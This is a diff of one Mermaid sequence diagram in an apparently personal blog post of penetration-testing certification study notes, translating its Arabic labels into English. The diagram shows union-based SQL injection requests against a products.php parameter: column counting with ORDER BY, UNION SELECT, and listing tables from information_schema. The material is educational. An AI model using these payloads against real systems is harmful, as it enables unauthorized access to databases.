

Before and after one commit to 3bdo-fathi/3bdo-fathi.github.io: the second of 3 diagrams in _posts/2026-11-12-ecppt-v3-part-8-web-application-penetration-testing.md, drawn with Mermaid. The commit also changed other lines of this file and 11 other files, not shown here.

````diff
--- a/_posts/2026-11-12-ecppt-v3-part-8-web-application-penetration-testing.md
+++ b/_posts/2026-11-12-ecppt-v3-part-8-web-application-penetration-testing.md
@@ -69,18 +67,18 @@
 ```mermaid
 sequenceDiagram
     autonumber
-    actor Pentester as مختبر الاختراق
-    participant WebApp as خادم الويب
-    participant Database as قاعدة بيانات MySQL
+    actor Pentester as Penetration Tester
+    participant WebApp as Web Application (PHP Backend)
+    participant Database as MySQL Database Engine
     
     Pentester->>WebApp: GET /products.php?id=1' ORDER BY 5-- -
-    WebApp->>Database: تنفيذ الاستعلام
-    Database-->>WebApp: خطأ: Unknown column '5' in 'order clause'
-    Note over Pentester: عدد الأعمدة في الاستعلام الأصلي هو 4 أعمدة بالضبط!
+    WebApp->>Database: Executes query with ORDER BY 5
+    Database-->>WebApp: Error: Unknown column '5' in 'order clause'
+    Note over Pentester: Result: Query selects exactly 4 columns!
     
     Pentester->>WebApp: GET /products.php?id=-1' UNION SELECT 1,2,3,4-- -
-    WebApp-->>Pentester: تظهر الصفحة أرقام 2 و 3 في التصميم (الأعمدة القابلة للعرض)
+    WebApp-->>Pentester: Page renders numbers '2' and '3' on the screen (Reflected Columns)
     
     Pentester->>WebApp: GET /products.php?id=-1' UNION SELECT 1,table_name,3,4 FROM information_schema.tables WHERE table_schema=database()-- -
-    WebApp-->>Pentester: استخراج أسماء الجداول السرية (users, admins, tokens)!
+    WebApp-->>Pentester: Displays database table names: 'users', 'orders', 'secrets'!
 ```
````
